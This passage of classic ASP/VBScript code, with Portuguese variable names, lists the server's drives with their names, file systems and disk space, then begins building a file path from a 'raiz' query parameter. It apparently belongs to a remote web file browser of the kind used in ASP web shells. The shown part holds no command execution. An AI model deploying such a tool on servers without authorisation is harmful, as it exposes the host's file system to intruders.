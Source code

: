                     tipodrive = "Fixed"
                    If drive.isready Then
                        nomedrive = drive.VolumeName
                    Else
                        nomedrive = ""
                    End If
                Case 3
                    tipodrive = "Network"
                    If drive.isready Then
                        nomedrive = drive.ShareName
                    Else
                        nomedrive = ""
                    End If
                Case 4
                    tipodrive = "CD-Rom"
                    If drive.isready Then
                        nomedrive = drive.VolumeName
                    Else
                        nomedrive = ""
                    End If
                Case 5
                    tipodrive = "RAM Disk"
                    If drive.isready Then
                        nomedrive = drive.VolumeName
                    Else
                        nomedrive = ""
                    End If
            End Select
            response.write "&lt;b&gt;Type:&lt;/b&gt; " & tipodrive & "&lt;br&gt;"
            response.write "&lt;b&gt;Name: &lt;/b&gt;" & nomedrive & "&lt;br&gt;"
            response.write "&lt;b&gt;File System: &lt;/b&gt;"
            If drive.isready Then
                set sp=fs.getdrive(str)
                response.write sp.filesystem & "&lt;br&gt;"
            Else
            response.write "-&lt;br&gt;"
            End If
            Response.Write "&lt;b&gt;Disk Space: &lt;/b&gt;"
            If drive.isready Then
                freespace = (drive.AvailableSpace / 1048576)
                set sp=fs.getdrive(str)
                response.write(Round(freespace,1) & " MB&lt;br&gt;")
            Else
                response.write("-&lt;br&gt;")
            End If
            Response.Write "&lt;b&gt;Total Space: &lt;/b&gt;"
            If drive.isready Then
                totalspace = (drive.TotalSize / 1048576)
                set sp=fs.getdrive(str)
                response.write(Round(totalspace,1) & " MB&lt;br&gt;")
            Else
                response.write("-&lt;br&gt;")
            End If
            Response.Write "&lt;br&gt;"
        Next
        Response.Write "&lt;/font&gt;"
        Set fs = Nothing
        Set drivecollection = Nothing
        set sp=Nothing
    Else
        If Trim(Request.QueryString("raiz")) = "" Then
            caminho = Server.MapPath(Request.ServerVariables("SCRIPT_NAME"))
            pos = Instr(caminho,"\")
            pos2 = 1